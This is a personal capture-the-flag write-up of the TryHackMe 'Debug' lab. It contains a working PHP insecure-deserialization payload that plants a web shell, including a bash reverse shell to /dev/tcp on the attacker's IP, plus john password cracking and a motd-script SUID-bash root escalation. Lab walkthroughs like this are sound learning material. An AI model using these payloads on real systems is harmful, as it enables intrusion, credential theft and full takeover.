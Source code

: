 # Hack Log 8 - TryHackMe [Debug](https://tryhackme.com/room/debug)

📆:**Date:** 2025-06-20  
🔍**Objective:** Obtain flags.  
🎯**Target**: TryHackme Debug (Lab CTF)  

---  

## 🛠️ Actions Taken  

### Port and Service Enumeration  

```
nmap -A -p- 10.10.253.220
```

| Port    | Service  | Description                    |
|---------|----------|--------------------------------|
| 22 | ssh    | OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)|                 |
| 80 | http     | Apache httpd 2.4.18                  |  

### Directory Enumeration  

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.253.220/
```

→ Found following directories  
  - /grid
  - /backup
  - /javascript
  - /javascripts  

### Insecure Deserialization

→ Upon visiting "/backup" found an interesting file called **index.php.bak**. There was some php code in the file.  

```php
<?php

class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();


?>
```

→ Upon analyzing the following code   
  ```php
  $debug = $_GET['debug'] ?? '';
  $messageDebug = unserialize($debug);
  ```
  - The value in "debug" parameter is serialized and it is unserialized before getting stored in "$messageDebug".  

  - The presence of php magic function "__destruct()" which is writing the file "form_file" in "/". (The name of the file is "message.txt").   
  ```php
  public function __destruct() {

  file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
  echo 'Your submission has been successfully saved!';
  
  }
  ```

     

  - This strongly points to insecure deserialization since value in "debug" is user controlled and php magic function is also present.  

→ Confirming insecure deserialization   
  - Creating a script to craft an url encoded serialized object.  
  ```php
  <?php

  class FormSubmit
  {
    public $form_file = "pwned.txt";
    public $message    = "Testing insecure deserialization";
  }
  $payload = new FormSubmit();
  $serialized = serialize($payload);
  $encoded = urlencode($serialized);
  echo "$encoded\n";
  ?>
  ```
  - Injected the output in "http://10.10.253.220/index.php/?debug="  

  - Doing curl on "http://10.10.253.220/pwned.txt" returns "Testing insecure deserialization" which confirms insecure deserialization.  


### Exploitation  

→ Crafting a reverse shell using the same script as above. 
  ```php
  <?php


class FormSubmit{

	public $form_file="shell.php";
	public $message ="<?php system('bash -c \"bash -i >& /dev/tcp/10.10.123.254/4444 0>&1\"'); ?>"; 

}

$payload = new FormSubmit();



$serialized = serialize($payload);

$encoded = urlencode($serialized);



echo "$encoded\n";
```

→ Started a listener on local machine and visited "http"//10.10.253.220/shell.php" and received a reverse shell and stabilized it.  


### Post Exploitation   

→ Got access as user "www-data".  
→ Found a file named ".htpasswd" in "/var/www/html" directory.  
→ File contained a username "james" and it's password hash.  

### Privilege Escalation  

→ Horizontal Privilege Escalation      
  - Copied the hash to a file named "password.hash"  
  - Using john cracked the password hash  
    ```
    john password.hash --wordlist=/usr/share/wordlists/rockyou.txt
    ```

  - Used the cracked password "jamaica" to ssh as james.     
  - Found user flag in /home/james directory.  
  - Found a file "Note-to-James.txt" in same directory.  
  - The file mentioned admin giving special permission to james to modify ssh messages.  

→ Escalation to root  
  - Read the ".bash_histroy" and found reference for "/etc/update-motd.d/"  
  - Visited the mentioned directory and found  
    - The files were created/owned by root   
    - But group james is granted collaborative access (read/write/execute) which is evident from previously found note.  
  - Added the following entry in the "/etc/update-motd.d/00-header"  
    ```bash
    echo "cp /bin/bash /home/james/bash && chmod u+s /home/james/bash" >> /etc/update-motd.d/00-header
    ```
  - Logged out from ssh.  
  - Logged in again via ssh and executed "./bash -p" which resulted in a root shell.  
  - Obtained the root flag.  



## 🔍 Key Findings  

- Insecure Deserialization which lead to arbitrary code injection.
- Credentials lying in the ".htpasswd" file.
- Special permissons granted to the user "james" to read/write the files owned by root.


## 📚 What I Learned  

- Insecure Deserialization can be dangerous as it allows an attacker to inject malicious payloads.
- Not to put credentials and other crucial information in files which are can be accessed easily.






  
  

